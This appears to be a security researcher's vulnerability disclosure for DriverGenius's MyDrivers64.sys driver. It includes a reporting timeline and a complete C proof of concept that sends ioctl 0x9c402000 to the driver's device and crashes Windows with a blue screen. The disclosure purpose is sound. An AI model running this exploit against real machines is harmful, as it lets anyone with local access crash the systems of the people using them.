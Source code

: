 # DriverGenius Hardware Monitor Driver allows attackers to cause blue screen
These page show one of the practical vulns that Found. I reported these bugs to cnvd on 24/8/2020 and cnvd confirmed the bug with DriverGenius Inc..  I think it is time to publish the detailed infomation here.
## Time Line
 * 24/8/2020 Bugs were reported to cnnvd.
 * 22/9/2020 CNVD and DriverGenius got confirmation that the poc could cause system crash.
 * 26/9/2020 CNVD published the bug at https://www.cnvd.org.cn/flaw/show/CNVD-2020-53152
 * 12/11/2020 POC published.
 
 ## Abstract
 
* Name: Driver Genius
* Date: 2020-8-24
* Reporter: Shuaibing Lu
* Vendor: http://www.drivergenius.com/
* Software Link: http://www.drivergenius.com/
* Version: DriverGenius 9.61.3708.3054
### Description
The hardware monitor driver MyDrivers64.sys of DriverGenius 9.61.3708.3054 allows attackers to inject a crafted argument via the argument of an ioctl on device "\\\\.\\MyDrivers0_0_1" with the command **0x9c402000** and cause a kernel crash.

To explore this vulnerability, some one must open the device file "\\\\.\\MyDrivers0_0_1", call an ioctl system call on this device file with the command **0x9c402000** and a crafted payload as the third argument.
### PoC
```
//Experimental environment: win10 x64
//Software official website: http://www.drivergenius.com/
//Software download address: http://www.drivergenius.com/
//Software version：DriverGenius 9.61.3708.3054
//Affected Component: MyDrivers64.sys

//poc


#include<stdio.h>

#include <windows.h>

typedef struct _IO_STATUS_BLOCK {

    union {

        NTSTATUS Status;

        PVOID    Pointer;

    } DUMMYUNIONNAME;

    ULONG_PTR Information;

} IO_STATUS_BLOCK, * PIO_STATUS_BLOCK;



typedef NTSTATUS(NTAPI* NtDeviceIoControlFile)(

    HANDLE           FileHandle,

    HANDLE           Event,

    PVOID            ApcRoutine,

    PVOID            ApcContext,

    PIO_STATUS_BLOCK IoStatusBlock,

    ULONG            IoControlCode,

    PVOID            InputBuffer,

    ULONG            InputBufferLength,

    PVOID            OutputBuffer,

    ULONG            OutputBufferLength

    );

int main() {
    char  DeviceName[] = "\\\\.\\MyDrivers0_0_1";
    long command = 0x9c402000;//please run driver genius！
    HANDLE hDriver = CreateFileA(DeviceName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    ULONG dw;

    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("Open device failed.\n");
        system("pause");

        return(-1);

    }

    LPCWSTR nt = L"ntdll";

    HMODULE hntdll = GetModuleHandle(nt);

    IO_STATUS_BLOCK p = {};

    NtDeviceIoControlFile tDeviceIoControl = (NtDeviceIoControlFile)GetProcAddress((HMODULE)hntdll, "NtDeviceIoControlFile");

    if (!tDeviceIoControl) {

        printf("[-] Fail to resolve ZwDeviceIoControlFile(0x%X)\n", GetLastError());

        system("pause");

    }

    printf("Start poc execution.\n");
    LPVOID lpFakeBuffer = malloc(0x20000);

    memset(lpFakeBuffer, 0, 0x20000);

    LPVOID Address = malloc(0x20000);

    memset(Address, 0, 0x20000);

    tDeviceIoControl(hDriver, 0, 0, 0, &p, command, lpFakeBuffer, 0, (PVOID)Address, 0);

    return 0;

}
```
### References

CNVD: https://www.cnvd.org.cn/flaw/show/CNVD-2020-53152

### Screenshot

![image](https://github.com/datadancer/WinSysVuln/blob/main/drivergenius.jpg)
